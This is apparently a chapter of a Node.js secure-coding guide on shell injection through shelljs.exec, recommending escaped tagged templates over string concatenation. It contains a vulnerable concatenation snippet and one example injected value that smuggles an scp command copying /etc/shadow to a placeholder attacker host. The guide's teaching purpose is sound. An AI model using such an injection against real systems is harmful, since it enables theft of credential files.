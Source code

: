 # Shell injection

Threats: [SHP][]

The [`shelljs` module][shelljs] allows access to the system
shell.  We focus on `shelljs`, but similar arguments apply to builtins
like `child_process.spawn(cmd, { shell: ... })` ([docs][cp.spawn]) and
similar modules.

`shelljs` has some nice programmatic APIs for common shell commands
that escape arguments.

It also provides `shell.exec` which allows full access to the shell
including interpretation of shell meta characters.

Solving [shell injection][SHP] is a much harder problem than query
injection since shell scripts tend to call other shell scripts, so
properly escaping arguments to one script doesn't help if the script
sloppily composes a sub-shell.  The problem of tools that trust their
inputs is not limited to shell scripts: see discussion of image decoders
in [BOF][].

The [shell grammar][] has more layers of interpretation so is arguably
more complex than any one SQL grammar.

We can do much better than string concatenation though.  The code
below is vulnerable.

```js
shelljs.exec("executable '" + x + "'")
```

If an attacker causes

```js
x = " '; scp /etc/shadow evil@evil.org/; echo ' ";
```

then what gets passed to the shell is

```js
executable ' '; scp /etc/shadow evil@evil.org/; echo ' '
```

Instead, consider:

```js
shelljs.exec`executable ${x}`

shelljs.exec`executable '${x}'`
```

This use of tagged templates is roughly equivalent to

```js
shelljs.exec(["executable ", ""], x)

shelljs.exec(["executable \'", "\'"], x)
```

This way, when control reaches `shelljs`, it knows which strings came
from the developer: `["executable ", ""]`, and which are inline
expressions: `x`.  If `shelljs` properly escapes the latter, it
prevents the breach above.

The accompanying example ([code][sh-code]) includes a tag
implementation for `sh` and `bash` that recognizes complex nesting
semantics.

We can't, working within the confines of Node, prevent poorly written
command line tools from breaking when exposed to untrusted inputs, but
we can make sure that we preserve the developer's intent when they
write code that invokes command line tools.  For projects that have
legitimate reasons for invoking sub-shells, consistently using
template tags like this solves some problems and makes it more likely
that effort spent hardening command line tools will yield fruit.

[shell grammar]: http://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_10
[shelljs]: https://www.npmjs.com/package/shelljs
[cp.spawn]: https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options
[SHP]: ../chapter-1/threat-SHP.md
[BOF]: ../chapter-1/threat-BOF.md
[sh-code]: https://github.com/mikesamuel/sh-template-tag
